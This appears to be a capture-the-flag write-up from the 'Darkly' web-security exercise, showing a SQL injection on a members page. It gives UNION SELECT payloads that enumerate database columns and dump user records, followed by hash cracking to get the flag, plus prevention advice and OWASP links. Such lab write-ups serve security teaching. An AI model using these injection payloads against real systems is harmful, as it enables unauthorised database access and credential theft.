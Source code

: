 # SQL INJECTION MEMBERS

## Flag
```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## Discovery
On the page http://{IP_ADDRESS}/index.php?page=member

```diff
# To get the request columns number
1 OR 1=1 UNION SELECT NULL, NULL--
> 2 columns

# To get the users columns names
1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns
> user_id, first_name, last_name, town, country, planet, Commentaire, countersign

# To see all user's data
1 AND 1=2 UNION SELECT user_id, CONCAT(first_name, last_name, town, country, planet, Commentaire, countersign) FROM users
> user_id = 5
> FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28

# Finally "Decrypt this password -> then lower all the char. Sh256 on it and it's good !"
md5_decrypt('5ff9d0165b4f92b14994e5c685cdce28')
> FortyTwo
lower('FortyTwo')
> fortytwo
sh256('fortytwo')
> 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## Use
> read sensitive data from the database, \
> modify database data (Insert/Update/Delete), \
> execute administration operations on the database (such as shutdown the DBMS), \
> recover the content of a given file present on the DBMS file system \
> and in some cases issue commands to the operating system

## Prevention
> use of prepared statements (with parameterized queries) \
> use of stored procedures \
> whitelist input validation \
> escaping all user supplied input

## Documentation
- [owasp - SQL injection](https://www.owasp.org/index.php/SQL_Injection)
- [owasp - prevent SQL injection](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [md5](https://md5decrypt.net/en/)

---

[RETURN](https://github.com/tillderoquefeuil/darkly)